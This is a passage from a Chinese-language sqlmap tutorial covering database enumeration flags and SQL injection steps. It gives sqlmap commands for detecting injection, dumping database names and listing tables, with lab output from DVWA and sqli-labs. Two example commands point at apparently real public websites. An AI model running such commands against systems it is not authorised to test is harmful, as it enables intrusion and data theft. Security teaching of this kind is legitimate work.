 ### 2.5. 枚举

`--dbs` 列出所有数据库

`--current-db` 获取当前数据库

`--tables` 列出所有数据表

`--columns` 列出所有字段

`--dump` 导出数据

### 2.6. 常规注入

判断是否存在 `sql` 注入

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://www.golden-wall.net/" --level 5 --risk 2 -f -b --beep --random-agent
```

爆库

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "https://www.hpwsxx.com/about.asp?id=1" --level 5 --risk 2 -f -b --random-agent --dbs
```

```
available databases [9]:
[*] challenges
[*] dvwa
[*] information_schema
[*] mysql
[*] performance_schema
[*] pikachu
[*] security
[*] test
[*] ultrax
```

爆表

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://192.168.1.76/sqli-labs/Less-1/?id=1" --level 5 --risk 2 -f -b --random-agent -D "security" --tables
```

```
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

